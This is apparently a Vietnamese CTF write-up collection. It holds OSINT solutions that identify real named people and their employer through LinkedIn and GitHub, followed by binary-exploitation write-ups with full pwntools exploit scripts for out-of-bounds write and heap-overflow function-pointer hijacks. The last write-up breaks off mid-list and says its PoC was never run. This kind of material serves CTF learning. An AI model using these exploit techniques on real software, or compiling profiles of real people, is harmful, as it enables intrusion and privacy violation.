


 **Đây là 1 bài OSINT tưởng đối khó, vì không cho ta bất kì hình ảnh hay file nào cả. Chỉ cho ta mô ta của đề bài**

### 1. Phân tích đề bài 
Chúng ta có những manh mối như sau:
> **weber:** Là web pentester

> **occupied high places in the ranking of various information security platforms:** Tức là người này có xếp hạng cao ở các nền tảng về bảo mật (HTB, THM, Root-me, ...) 

Tới đây thì chúng ta chỉ có được vài manh mối này, những thông tin bất khả thi để tìm 1 người nào đó. Nhưng nếu chúng ta để tên bài thi là **Strongest Beaver** thì ta có thể thu hẹp phạm vi tìm kiếm nhanh chóng


Tại sao? Vì Beaver cho ta manh mối biết được đây là team tổ chức ra giải CTF này. Nếu các bạn lên CTF time, sẽ thấy tên team này 




Và team của họ bao gồm 18 thành viên 



Bây giờ công việc của chúng ta lúc này là đi tìm kiếm thông tin lần lượt của 18 thành viên này.

### 2. Tìm kiếm thông tin

Đầu tiên tôi sẽ check vài xem những người có thông tin trong tài khoản CTF time của họ trước, ví dụ như social media, github, telegram, ...

Tôi đã bắt đầu với những cái tên như Definazu, Mr.Error, Blandrein, F0ra1n

**Đầu tiên là Definazu, tên thất của anh ấy là Gleb Shadura**

Tôi bắt đầu lên THM để tìm kiếm thử xem có hay không, đúng là có tên đấy, nhưng không có bất kỳ thông tin gì

Sau đó tôi thử lên github để tìm kiếm profile của anh ấy thì đã có thông tin về Linkedin, telegram của anh ấy. Tôi liền kiểm tra ngay profile Linkedin của anh ấy ngay

Nếu nhìn thông tin thì anh ấy theo học tại trường Grodno, thành viên của Beavers0. Tuy nhiên, anh ấy theo Blue team, nó khác với **Weber**, nhưng vì thấy anh đã từng làm công ty **Security Lab** nên tôi đã thử nhập vào flag xem, thì kết quả là không phải


Dựa vào profile của anh ấy, tôi tìm được thông tin của member thứ 2 trong team, là Alex Chychkan (Mr.Error)

**Tìm kiếm thông tin của Mr.Error**

Profile anh ấy khiến tôi tưởng mình đã tìm được đáp án, vì nó thỏa mãn tất cả manh mối ban đầu, Penetration Tester, Top 1% THM, thành viên của Bearvers0. Ngoài ra cũng là người ra đề cho bài này.

Nhưng khi tìm kiếm thông tin về tổ chức anh ấy làm việc thì không có, anh ấy đang làm freelance

Nhưng anh ấy còn để thông tin về Github, THM profile nên tôi cũng đã lên đấy kiểm tra. 


Khi kiểm tra profile trên github và cả THM, thì không có thông tin gì về tổ chức của anh ấy cả

Nên lúc này tôi nghĩ tổ chức có thể là tên trường của anh ấy hoặc team anh ấy đang tham gia, tôi thử nhập các flag thì đều không được

Tiếp đến tôi thử vào các post trên linkedin của anh ấy để xem những người tương tác có liên quan, thì tôi thấy thông tin của Ivan Savanets, là đội trưởng của Beavers0

Nhưng cũng không có bất kỳ thông tin về tổ chức. Cả 2 người mà tôi đã đề cập ở trên. 


**Tìm kiếm thông tin những thành viên còn lại**

Tôi quay lại CTF time để tìm kiếm những thông tin của những thành viên còn lại bằng tên thật, và cả nickname của họ trên các nền tảng như Linkedin, github. Thì tôi tìm được profile của nickname **vadimm** trên github, nhưng tôi phải tìm tới trang thứ 3 mới có. Vì trên CTF không để tên thật của anh ấy nên tôi cũng không chắc. Nhưng khi xem tên thật của anh ấy thì khá trùng nickname vadimm đó là **VadimMustyatsa**


Trên profile của anh ấy có để tên của tổ chức anh ấy đang làm, cũng ở Belarus, nên tôi nghĩ anh ấy cũng thuộc team Beavers0. Tôi lên Linkedin để tìm thêm thông tin thì thấy anh ấy không hề để thông tin liên quan tới team CTF hay trường Grodno. Nhưng có thông tin về công ty là Alfa Bank.

Vì thế tôi thử nhập vào flag thì nó đúng

```
grodno{Alfa_Bank}
```

##### 3. Bài học rút ra
1. Hãy đọc kĩ đề bài vì rất có thể nó cho chúng ta manh mối để thu hẹp phạm vi tìm kiếm

2. Hãy thử những kết quả có thể

## [Grodno CTF] WhoAmI - Writeup (OSINT)

**Author:** @vvanuss | **Difficulty:** Easy | **Category:** OSINT

---


 **Đây là 1 bài OSINT easy**

### 1. Phân tích đề bài 
Chúng ta có những manh mối như sau:
> **Oklahoma:** Bang Oklahoma ở Mỹ

> **Antique CO-OP:** Bảng tên trong hình ảnh 

Ban đầu tôi đã nghĩ bức tranh này được chụp bởi người trong hình, nên tôi đã dùng exiftool để đọc metadata, nhưng không có manh mối về vị trí của bức ảnh đã được chụp.

Nhưng hình ảnh này được người ra đề lấy trên google 360, nên nó sẽ có trên google map

VỚi 2 manh mối trên chúng ta đã có thể dễ dàng tìm được thông tin của bức ảnh này. 

### 2. Tìm kiếm thông tin

Tôi lên google map search `Antique CO-OP, Oklahoma` thì nó sẽ hiện ngay cửa hàng đầu tiên. Ta vào phần hình ảnh và tìm kiếm chế độ xem 360. 


##### flag: 
```
grodno{Russell_Rogers}
```

##### 3. Bài học rút ra

1. Hãy đọc kĩ đề bài vì rất có thể nó cho chúng ta manh mối để thu hẹp phạm vi tìm kiếm


2. Hãy nhìn, tìm kiếm những manh mối có trong bức ảnh


# Pwn

## Clockwork Vault (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Medium
- **Tags:** OOB Read/Write, Missing Lower-Bound Check, Global Struct Array, Encoded Function Pointer, Control-Flow Hijack

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Chương trình `clockwork_vault` mô phỏng một "cơ chế đồng hồ" gồm 8 slot (mechanism) chứa trong một mảng cấu trúc toàn cục. Người chơi có 3 lựa chọn qua menu:
1. **Inspect** — đọc thông tin (`setting`, `routine`) của một slot theo index.
2. **Retune** — ghi lại `setting` và `routine` của một slot theo index.
3. **Cycle** — kích hoạt "bảo trì": nếu điều kiện đúng, chương trình gọi một con trỏ hàm được lưu (đã mã hoá) trong slot.

Mục tiêu: lấy flag nằm trong `flag.txt`.

**File đính kèm:**
- `clockwork_vault` — ELF 64-bit, PIE, NX enabled, Full RELRO, **No canary**, not stripped (có debug_info).

### 3. Quá trình phân tích

Đọc `main()`, chương trình chỉ có 3 lựa chọn: `inspect_slot` (đọc 1 slot), `retune_slot` (ghi 1 slot), và `cycle` (sink). Cả hai hàm đọc/ghi đều tính con trỏ slot theo cùng một công thức:
```c
idx = read_int();
if (idx > 7) { puts("out of range"); return; }
slot = (mechanism_t *)((char *)&slots + (idx + 2) * 0x20);
```
Điểm đáng chú ý nhất: điều kiện chặn chỉ có `idx <= 7`, không hề có `idx >= 0`. Vì `idx` là `int` có dấu, một giá trị âm (ví dụ `-2`) vẫn lọt qua `jle`, và phép nhân `(idx + 2) * 0x20` cho ra một con trỏ nằm *trước* mảng `slots[]` — `inspect_slot`/`retune_slot` thực chất là một cặp đọc/ghi tùy ý (OOB read/write), không chỉ giới hạn trong 8 slot hợp lệ.

Vậy vùng nhớ ngay trước `slots` chứa gì? `setup()` cho câu trả lời:
```asm
lea  rax, [slots]
shr  rax, 0xc
xor  rax, 0x3141592653589793
mov  [service_cookie], rax
mov  [slots+0x10], rax        ; slots[0].setting = service_cookie
...
xor  rax, idle_cycle
mov  [slots+0x38], rax        ; slots[1].routine = cookie ^ idle_cycle
...
xor  rax, trigger_alarm
mov  [slots + i*0x20 + 0x18], rax   ; slots[2..9].routine = cookie ^ trigger_alarm
```
`service_cookie` chỉ là `(&slots >> 12) ^ hằng_số` — tất định theo PIE base chứ không random theo runtime — và nó tự lưu ngay tại `slots[0].setting`. Với `idx = -2` thì `(idx+2)*0x20 = 0`, đúng raw index 0, nên `inspect_slot(-2)` leak thẳng ra cookie. Tương tự `idx = -1` (raw index 1) leak `cookie ^ idle_cycle`, `idx = 0` (raw index 2) leak `cookie ^ trigger_alarm`. Chỉ với option 1 và vài index âm, ta có ngay cookie và 2 địa chỉ hàm hợp lệ đã "giải mã" được.

`cycle()` — sink của bài — làm gì với vùng nhớ đó:
```asm
cmp  qword [slots+0x30], 0x43414c4942524154   ; "CALIBRAT" (ASCII, đọc little-endian)
jne  skip
mov  rax, [slots+0x38]
xor  rax, [service_cookie]
call rax
```
`slots+0x30`/`slots+0x38` chính là raw index 1 — đúng struct mà `retune_slot(-1)` cho phép ghi đè toàn quyền. Sink thực chất chỉ là `call(slots[1].routine ^ cookie)`, gate bằng cách so khớp một hằng số ASCII.

**Hướng giải quyết:**
1. Leak `service_cookie`, `idle_cycle`, `trigger_alarm` bằng `inspect_slot` với index âm.
2. Suy ra địa chỉ hàm in flag (`open_vault`) mà không cần offset cứng nào: `idle_cycle`, `trigger_alarm`, `open_vault` là 3 stub liên tiếp, cùng kích thước 0x16 byte trong `.text`, nên `open_vault = 2×trigger_alarm − idle_cycle` — đúng với mọi PIE base, kể cả khi remote build lại binary ở dạng non-PIE.
3. Dùng `retune_slot(-1)` ghi đè đúng struct mà `cycle()` kiểm tra: `setting = "CALIBRAT"` để qua gate, `routine = open_vault ^ cookie` để sau khi XOR lại đúng bằng `open_vault`.
4. Gọi `cycle` → `call(open_vault)` → in flag, không cần biết địa chỉ libc hay dựng ROP gì cả.

### 4. PoC

```python
##!/usr/bin/env python3
from pwn import *

context.binary = ELF('./clockwork_vault', checksec=False)
context.log_level = 'info'

MAGIC = 0x43414c4942524154   # "CALIBRAT" - gate mà cycle() kiểm tra ở slots[1].setting


def start():
    return process(context.binary.path)


def menu(p, choice):
    p.sendlineafter(b'> ', str(choice).encode())


def inspect(p, index):
    """opt 1: trả về (setting, routine) của slots[index+2] (raw)."""
    menu(p, 1)
    p.sendlineafter(b'Mechanism index:', str(index).encode())
    p.recvuntil(b'Setting: 0x')
    setting = int(p.recvline().strip(), 16)
    p.recvuntil(b'Encoded routine: 0x')
    routine = int(p.recvline().strip(), 16)
    return setting, routine


def retune(p, index, setting, routine):
    """opt 2: ghi setting/routine của slots[index+2] (raw)."""
    menu(p, 2)
    p.sendlineafter(b'Mechanism index:', str(index).encode())
    p.sendlineafter(b'New setting:', str(setting).encode())
    p.sendlineafter(b'New encoded routine:', str(routine).encode())


def cycle(p):
    """opt 3: sink -> call(slots[1].routine ^ service_cookie)."""
    menu(p, 3)


def exploit():
    p = start()

    # 1) OOB read với index âm (không có bound dưới):
    #    -2 -> slots[0].setting = service_cookie
    #    -1 -> slots[1].routine = cookie ^ idle_cycle
    #     0 -> slots[2].routine = cookie ^ trigger_alarm
    service_cookie = inspect(p, -2)[0]
    idle_cycle     = inspect(p, -1)[1] ^ service_cookie
    trigger_alarm  = inspect(p,  0)[1] ^ service_cookie
    log.info('service_cookie = %#x', service_cookie)
    log.info('idle_cycle     = %#x', idle_cycle)
    log.info('trigger_alarm  = %#x', trigger_alarm)

    # 2) open_vault nằm ngay sau trigger_alarm, 2 stub liền trước cùng size
    #    -> open_vault = 2*trigger_alarm - idle_cycle (không cần hardcode offset)
    open_vault = 2 * trigger_alarm - idle_cycle
    log.success('open_vault = %#x', open_vault)

    # 3) OOB write: retune(-1) trúng slots[1] (đúng struct mà cycle() đọc)
    retune(p, -1, MAGIC, open_vault ^ service_cookie)

    # 4) Kích hoạt sink -> call open_vault() -> in flag
    cycle(p)

    print(p.recvall(timeout=3).decode(errors='ignore'))
    p.close()


if __name__ == '__main__':
    exploit()
```

**Output:**
```
[*] service_cookie = 0x314159205a3a266d
[*] idle_cycle     = 0x60962b1fb35c
[*] trigger_alarm  = 0x60962b1fb372
[+] open_vault = 0x60962b1fb388
Cycling the maintenance core...
The final lock disengages.
Flag: grodno{fake_flag}
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*

## Museum of Echoes (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Medium
- **Tags:** Heap Overflow, Type Confusion, UAF-adjacent Reclassify, Function Pointer Hijack, Info Leak

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Chương trình `museum_of_echoes` quản lý một "phòng triển lãm" gồm 8 slot, mỗi slot chứa một "exhibit" thuộc một trong hai loại: **whisper** (nhỏ) hoặc **chorus** (lớn hơn, có thêm phần "refrain"). Menu cho phép:
1. **Create** — tạo exhibit mới ở một slot, chọn loại whisper/chorus.
2. **Rewrite** — ghi lại nội dung (intro/refrain) của một chorus.
3. **Reclassify** — đổi loại của một exhibit đã tồn tại giữa whisper và chorus.
4. **Inspect** — xem label và địa chỉ hàm "routine" (perform) của một exhibit.
5. **Perform** — nếu exhibit có `room` đúng "mật khẩu", gọi hàm `perform` được lưu trong nó.

Mục tiêu: lấy flag nằm trong `flag.txt`.

**File đính kèm:**
- `museum_of_echoes` — ELF 64-bit, PIE, NX enabled, Full RELRO, **Canary found**, not stripped (có debug_info).

### 3. Quá trình phân tích

Đọc struct `exhibit_t` (0x30 byte: `kind` ở +0x00, `room` ở +0x08, con trỏ hàm `perform` ở +0x10, `label[24]` ở +0x18) và `chorus_t` (0xb0 byte: `exhibit_t` cộng thêm `intro[32]` và `refrain[96]`), điểm mấu chốt nằm ở `reclassify_exhibit()`: hàm này cho phép đổi `kind` của một exhibit giữa whisper(1) và chorus(2) **mà không hề realloc lại chunk**. Một whisper chỉ được `malloc(0x50)`, nhưng nếu bị "thăng cấp" thành chorus, `rewrite_exhibit()` sẽ tin tưởng `kind == 2` và ghi thẳng 95 byte "refrain" bắt đầu từ offset 0x50 trong object — trong khi chunk thật sự chỉ có 0x50 byte (usable ~0x58). Đây là type confusion dẫn tới heap overflow tràn hẳn sang chunk kế tiếp.

Vì hai whisper tạo liên tiếp đều `malloc(0x50)` → cùng rơi vào bin `chunksize 0x60`, và heap cấp phát tuần tự nên chúng nằm cách nhau đúng 0x60 byte — **tất định, không phụ thuộc ASLR**. Nếu slot0 và slot1 đều là whisper, overflow 95 byte từ slot0 (sau khi reclassify thành chorus) sẽ đè trọn vẹn lên toàn bộ `exhibit_t` của slot1, kể cả `room` và `perform`. `perform_exhibit()` chỉ gate bằng một điều kiện:
```c
if (exhibit->room == 0x4543484f)   // "OHCE" (little-endian của "ECHO")
    exhibit->perform(exhibit);
```
Vậy chỉ cần overflow ghi đúng `room = 0x4543484f` và `perform = <địa chỉ mong muốn>` vào slot1, gọi `perform_exhibit(1)` sẽ thực thi con trỏ hàm tùy ý.

Địa chỉ mong muốn ở đây là `grand_finale()` — một hàm "win" không được gọi ở đâu khác trong luồng chương trình bình thường, mở `flag.txt`, đọc một dòng rồi `printf` ra màn hình, và quan trọng là **bỏ qua tham số `rdi`** nên không cần con trỏ exhibit hợp lệ để gọi đúng. Vấn đề còn lại là leak địa chỉ PIE: `inspect_exhibit()` in thẳng `Routine: %p` — với một whisper *chưa bị reclassify*, giá trị này chính là địa chỉ thật của `whisper_perform`/`chorus_perform` (chưa hề bị mã hoá hay XOR), nên chỉ cần tạo một chorus phụ ở slot khác và inspect nó là có ngay leak PIE, từ đó tính `grand_finale` theo offset cố định trong binary.

**Hướng giải quyết:**
1. Tạo `slot0` (whisper) và `slot1` (whisper) — hai chunk `0x50` liền kề, cách nhau đúng `0x60`.
2. Tạo `slot2` (chorus) chỉ để leak: `inspect(slot2)` trả về địa chỉ thật của `chorus_perform`, từ đó suy ra `grand_finale = chorus_perform + offset` (offset cố định trong binary, đo được qua disassembly hoặc probe byte-by-byte trên remote).
3. `reclassify(slot0, kind=2)` để mở khóa đường ghi 95 byte "refrain" trên một chunk chỉ `0x50` byte.
4. `rewrite_exhibit(slot0, ..., refrain=payload)` với `payload` dựng sao cho phần đè lên `slot1` set đúng `room = 0x4543484f` và `perform = grand_finale`.
5. `perform_exhibit(slot1)` → gate `room` pass → gọi `grand_finale()` → in flag.

### 4. PoC

```python
##!/usr/bin/env python3
## Museum of Echoes - GuCTF pwn
##
## struct exhibit_t (0x30 bytes):
##   int kind;              // +0x00  (1 = whisper, 2 = chorus)
##   size_t room;           // +0x08  (must == 0x4543484f "OHCE" for perform_exhibit to allow calling perform)
##   void (*perform)(exhibit_t*); // +0x10
##   char label[24];        // +0x18
##
## struct chorus_t (0xb0 bytes): exhibit_t base; char intro[32]; char refrain[96];
##
## static exhibit_t *gallery[8];
##
## Bug: reclassify_exhibit() lets you flip gallery[slot]->kind between whisper(1)
## and chorus(2) *without ever reallocating* the underlying chunk. A "whisper"
## object is only malloc(0x50). If it's reclassified to kind=2 (chorus),
## rewrite_exhibit() then happily writes a 95-byte "refrain" starting at
## object-offset 0x50 -- but the chunk is only 0x50 bytes (usable ~0x58) ->
## massive heap overflow into the *next* heap chunk.
##
## Two whisper exhibits allocated back-to-back sit exactly chunksize(0x60) apart
## (malloc(0x50) -> chunksize 0x60, deterministic regardless of ASLR). So the
## refrain overflow from slot0 lands squarely on slot1's entire exhibit_t + its
## scratch "line" buffer, letting us set:
##   slot1->room    = 0x4543484f      (passes perform_exhibit's guard)
##   slot1->perform = grand_finale    (hijack target, never called normally)
##
## grand_finale() (an unreferenced "win" function) opens flag.txt, fgets one
## line and printf("Flag: %s", ...); it ignores its rdi argument, so any
## gallery pointer works. inspect_exhibit() leaks a raw function pointer
## ("Routine: %p") which is exactly whisper_perform for a freshly-created,
## not-yet-reclassified whisper -> free leak of that function's address.

from pwn import *

context.binary = ELF('./museum_of_echoes', checksec=False)
context.log_level = 'info'
elf = context.binary

MAGIC_ROOM = 0x4543484f
GRAND_FINALE_FROM_CHORUS = 0x61  # offset đo trên bản local (không canary trên remote sẽ dịch offset này)


def start():
    if args.REMOTE:
        host, port = args.HOST or '10.112.0.12', int(args.PORT or 47778)
        return remote(host, port)
    return process(['./museum_of_echoes'])


def menu(p, choice):
    p.sendlineafter(b'> ', str(choice).encode())


def create_whisper(p, slot, line=b'x'):
    menu(p, 1)
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendlineafter(b'Kind (1=whisper, 2=chorus):', b'1')
    p.sendlineafter(b'Line:', line)


def create_chorus(p, slot, intro=b'i', refrain=b'r'):
    menu(p, 1)
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendlineafter(b'Kind (1=whisper, 2=chorus):', b'2')
    p.sendlineafter(b'Intro:', intro)
    p.sendlineafter(b'Refrain:', refrain)


def inspect(p, slot):
    menu(p, 4)
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.recvuntil(b'Label: ')
    label = p.recvline().strip()
    p.recvuntil(b'Routine: ')
    routine = int(p.recvline().strip(), 16)
    return label, routine


def reclassify(p, slot, new_kind):
    menu(p, 3)
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendlineafter(b'New kind (1=whisper, 2=chorus):', str(new_kind).encode())


def rewrite_chorus(p, slot, intro, refrain):
    # refrain gửi raw (không sendlineafter) vì có thể dài đúng 95 byte:
    # read_blob() chỉ đọc 1 lần bằng read() syscall, nếu thêm '\n' của
    # sendline sẽ còn sót lại trong pipe và bị hiểu nhầm thành lựa chọn
    # menu tiếp theo (dòng rỗng -> atoi("")==0 -> chương trình thoát).
    menu(p, 2)
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendlineafter(b'New intro:', intro)
    p.recvuntil(b'New refrain:')
    p.send(refrain)


def perform(p, slot):
    menu(p, 5)
    p.sendlineafter(b'Slot:', str(slot).encode())


def exploit():
    p = start()

    # slot0: whisper (malloc 0x50) -- chunk sẽ bị reclassify rồi overflow ra khỏi nó.
    # slot1: whisper (malloc 0x50) -- nằm ngay sau slot0 (cách nhau đúng chunksize 0x60),
    #        là nạn nhân của overflow.
    # slot2: chorus thật, chỉ dùng để leak địa chỉ chorus_perform -- không bị overflow đụng tới
    #        (nằm ở chunk hoàn toàn khác).
    create_whisper(p, 0, b'first')
    create_whisper(p, 1, b'second')
    create_chorus(p, 2, b'i', b'r')

    # leak địa chỉ chorus_perform; offset của grand_finale tính từ đây.
    _, routine = inspect(p, 2)
    grand_finale = routine + GRAND_FINALE_FROM_CHORUS
    log.success('chorus_perform = %#x', routine)
    log.success('grand_finale   = %#x', grand_finale)

    # đổi slot0 thành "chorus" mà không realloc -> mở khóa đường ghi refrain 95 byte
    # trên một chunk chỉ có 0x50 byte
    reclassify(p, 0, 2)

    # dựng overflow 95 byte đè hoàn toàn lên slot1
    payload  = b'A' * 8                 # phần đuôi dữ liệu của chunk0 (không quan trọng)
    payload += p64(0x61)                # size field của chunk1 (giữ heap hợp lệ: 0x60|PREV_INUSE)
    payload += p64(0)                   # slot1->kind (+padding)   (không bị kiểm tra)
    payload += p64(MAGIC_ROOM)          # slot1->room              (điều kiện BẮT BUỘC)
    payload += p64(grand_finale)        # slot1->perform           (HIJACK)
    payload += b'\x00' * 24             # slot1->label             (không quan trọng)
    payload += b'\x00' * 31             # scratch line buffer của slot1 (không quan trọng)
    assert len(payload) == 95

    rewrite_chorus(p, 0, b'intro', payload)

    # perform_exhibit(1): room==magic pass gate, gọi grand_finale()
    perform(p, 1)

    out = p.recvall(timeout=3)
    log.info('output: %r', out)
    m = re.search(rb'grodno\{[^}]*\}', out) or re.search(rb'Flag:\s*(\S+)', out)
    if m:
        flag = m.group(0) if m.re.pattern.startswith(b'grodno') else m.group(1)
        log.success('FLAG: %s', flag.decode())
    p.close()
    return out


if __name__ == '__main__':
    exploit()
```

**Output:**
```
[+] Starting local process './museum_of_echoes': pid 4288
[+] chorus_perform = 0x5ca2bdb79252
[+] grand_finale   = 0x5ca2bdb792b3
[+] Receiving all data: Done (38B)
[*] output: b'\nFlag: grodno{fake_flag}\n'
[+] FLAG: grodno{fake_flag}
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*

## House of Mirage (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Hard
- **Tags:** UAF, Type Confusion, Custom Allocator, Race Condition, Background Thread, Arbitrary Read, Info Leak

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Chương trình `house_of_mirage` mô phỏng một hệ thống quản lý "session" và "sink" (bộ ghi log/memo). Có một luồng nền chạy định kỳ (mỗi 25ms) để "quét" (sweep) các session đã hết hạn. Menu chính cho phép: tạo session, xem thông tin session (`show_session`), "mirror import" ghi dữ liệu tuỳ ý vào một session (`mirror_import`), đặt thời gian hết hạn cho session (`arm_expiry`), tạo sink (`create_sink`), và "flush" một sink để in nội dung memo của nó ra màn hình.

Mục tiêu: lấy flag nằm trong `flag.txt`.

**File đính kèm:**
- `house_of_mirage` — ELF 64-bit, đi kèm loader và thư viện riêng (`ld-linux-x86-64.so.2`, `libc.so.6`, `libstdc++.so.6`, v.v.), chạy qua `ARGV = [ld, '--library-path', '.', './house_of_mirage']` thay vì chạy trực tiếp.

> **Lưu ý về phương pháp làm bài:** binary `house_of_mirage` khiến hàng loạt công cụ phân tích tĩnh thông thường (`file`, `readelf`, `checksec`, `ELF()` của pwntools, kể cả `ls -la`/`stat` ngay trên thư mục chứa nó) bị **segfault** trong môi trường sandbox làm bài này, có lần còn kéo theo treo cả shell. Vì vậy phần phân tích dưới đây được viết lại hoàn toàn từ comment kỹ thuật rất chi tiết có sẵn ở đầu `exploit.py` (được ghi lại từ lúc phân tích thành công lúc thi), không phải từ việc disassemble lại trong phiên viết writeup này — và PoC bên dưới **chưa được chạy lại cục bộ** để lấy output thật, vì mọi thao tác đụng vào binary này trong môi trường viết writeup đều không an toàn.

### 3. Quá trình phân tích

Cốt lõi của lỗ hổng nằm ở luồng nền "archive sweep": mỗi 25ms, luồng này quét các session đã hết hạn, `free()` chunk `0x70` byte của chúng và đẩy vào một freelist riêng của một custom pool allocator — nhưng **không hề xoá con trỏ trong mảng `sessions[]`**, để lại một dangling pointer kinh điển (use-after-free). Điểm khiến bug này nguy hiểm hơn UAF thông thường là **session và sink dùng chung một pool cấp phát**: khi tạo một sink mới ngay sau khi một session vừa bị sweep, allocator rất có thể trả về đúng chunk vừa freed — khiến session (đã hết hạn, dangling) và sink (mới tạo) **alias cùng một vùng nhớ**. Đây là type confusion: cùng một địa chỉ, chương trình vừa coi nó là "session" (có thể ghi qua `mirror_import`) vừa coi nó là "sink" (có vtable, có thể `flush`).

Sink có một hàm ảo `flush` (vtable slot 0): nếu `memo_ptr` và `memo_len` khác 0, nó thực hiện `cout.write(memo_ptr, memo_len)` — một **arbitrary read primitive** hoàn chỉnh, in ra bất kỳ vùng nhớ nào theo con trỏ ta kiểm soát. `mirror_import` (option 3) cho phép ghi tối đa 0x60 byte tuỳ ý vào một session — nếu session đó đang alias với sink, thao tác này thực chất là ghi đè trực tiếp lên struct sink, bao gồm cả `vtable` (giữ nguyên giá trị thật để `flush` vẫn gọi đúng hàm), một giá trị "expiry" khổng lồ (để tránh bị sweep tiếp làm hỏng trạng thái đang dàn dựng), và quan trọng nhất là `memo_ptr = &flag_buffer` (địa chỉ cố định trong `.data`, nơi chương trình đã `fgets()` sẵn nội dung `flag.txt` vào lúc khởi động) cùng `memo_len` hợp lý. Chỉ cần leak PIE base (qua giá trị vtable pointer đọc được từ `show_session`, dùng chính offset của vtable trong `.data` để trừ ngược lại), toàn bộ địa chỉ cần thiết (`vtable` thật, `flag_buffer`) đều tính được không cần thêm leak nào khác.

Vì đây là type confusion phụ thuộc vào **race condition** với luồng sweep nền (session phải bị sweep xong trước khi tạo sink mới để trúng đúng chunk, nhưng luồng sweep cũng có thể "dọn" tiếp và phá vỡ trạng thái nếu can thiệp không đủ nhanh), khai thác cần gửi các lệnh tạo-sink và xem-session dồn dập trong một lần gửi dữ liệu (pipeline) để server xử lý gần như liền mạch trong vài micro-giây, không để cửa sổ 25ms của luồng sweep chen vào giữa — và cần thử lại (retry) nếu "thua" race (nhận diện qua việc giá trị leak được không khớp offset vtable mong đợi).

**Hướng giải quyết:**
1. Tạo một session, đặt `arm_expiry` = 0 giây (hết hạn ngay lập tức), đợi một chút để luồng sweep nền free chunk của nó vào pool.
